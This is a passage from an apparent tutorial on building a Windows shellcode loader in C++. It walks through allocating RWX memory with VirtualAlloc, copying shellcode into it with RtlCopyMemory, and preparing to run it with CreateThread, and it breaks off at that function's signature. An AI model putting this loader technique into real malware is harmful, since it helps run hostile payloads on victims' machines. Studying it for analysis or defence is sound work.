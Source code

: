 ### Memory allocation

Next step ahead: committing and reserving some memory for our shellcode. To do so, we will use the VirtualAlloc function from Windows API. A quick dive into microsoft documentation and we find the informations we need:
```
LPVOID VirtualAlloc(
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

- **LPVOID lpAddress:** NULL in our case, we just want the system to do the job for us and find a free region.
- **SIZE_T dwSize:** sizeof(shellcode) ! :p
- **DWORD flAllocationType:** We need to set 2 flags. *MEM_COMMIT* to allocate physical storage in memory and *MEM_RESERVE* to reserve a range of the process's virtual address space. We can combine these flags with the OR operator (**|**).
- **DWORD flProtect:** The best flag for our purpose is *PAGE_EXECUTE_READWRITE*, because we need the *RWX* permissions for the memory to be read from, written to and executed.

The function returns an LPVOID, which is a pointer to the allocated memory region. We store this in the `mem_alloc` variable.

Here is the line of code we need to add to our program:
```C++
// Allocating, Committing and Reserving memory
LPVOID mem_alloc = VirtualAlloc(NULL, sizeof(shellcode), (MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);
```

For debugging and analysis purposes, we should print the address of the memory we allocated.
```C++
printf("Memory address: 0x%p\n", mem_alloc);
```

Now, last step for this part, write the shellcode in memory.
```C++
RtlCopyMemory(mem_alloc, shellcode, sizeof(shellcode));
```
(I let you google the documentation to understand the function, because you need to learn to RTFM :p)

### Create our thread and execute the payload

Remember what I told you earlier? Our malicious code will be executed in a thread (*a small and independent unit of a computer program*). It's like a mini-program within a larger program (*called a process*) that can run simultaneously with other threads. But don't worry! We'll only need one.

For this we use the CreateThread function from Windows API (yes, again).

```
HANDLE CreateThread(
  [in, optional]  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  [in]            SIZE_T                  dwStackSize,
  [in]            LPTHREAD_START_ROUTINE  lpStartAddress,
  [in, optional]  __drv_aliasesMem LPVOID lpParameter,
  [in]            DWORD                   dwCreationFlags,
  [out, optional] LPDWORD                 lpThreadId
);
```
